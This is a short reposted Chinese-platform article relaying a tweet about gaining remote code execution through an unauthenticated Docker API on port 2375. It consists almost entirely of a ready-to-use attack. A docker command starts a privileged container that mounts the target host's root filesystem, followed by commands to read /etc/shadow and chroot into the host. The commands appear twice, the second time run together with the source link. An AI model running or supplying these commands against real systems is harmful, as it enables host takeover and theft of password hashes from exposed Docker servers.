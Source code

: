 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/4ayfBOYJZSoafBPuEQtUBg)

Easy RCE using Docker API on port 2375/tcp

Easy RCE using Docker API on port 2375/tcp

docker -H <host>:2375 run --rm -it --privileged --net=host -v /:/mnt alpine

File Access: cat /mnt/etc/shadow

RCE: chroot /mnt

![](https://mmbiz.qpic.cn/mmbiz_jpg/mj7qfictF08W5LyQg209MKnqW7ibjdYMOAHl74xslsw6CIv5WYDdNzicCkGzOxvvibKq0iaoiaRohscsD11S6CCNUGAQ/640?wx_fmt=jpeg)

来源推特：https://twitter.com/ptswarm/status/1338477426276511749docker -H <host>:2375 run --rm -it --privileged --net=host -v /:/mnt alpine File Access: cat /mnt/etc/shadow RCE: chroot /mnt